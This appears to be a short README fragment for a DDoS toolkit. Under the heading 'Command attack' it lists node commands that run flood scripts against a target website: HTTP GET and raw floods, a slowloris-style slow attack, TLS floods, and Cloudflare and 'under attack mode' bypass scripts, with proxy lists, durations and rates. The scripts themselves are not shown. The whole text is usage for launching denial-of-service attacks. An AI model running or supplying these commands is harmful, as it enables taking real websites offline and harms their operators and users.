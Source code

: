 Command attack :


FLOOD-JS : node FLOOD-JS.js https://sex.com proxy.txt 180 GET


node HTTP-BROWSER.js https://sex.com 1000 180


node cf.js https://sex.com 180


node HTTP-FLOOD.js https://sex.com 180


node HTTPGET.js https://sex.com 443 180


node hyper.js https://sex.com 180


node HTTP-RAW.js https://sex.com 180


node slow.js https://sex.com 180


node UAM-BYPASS.js https://sex.com 180 120



node TLS-V1.js https://sex.com 60 150
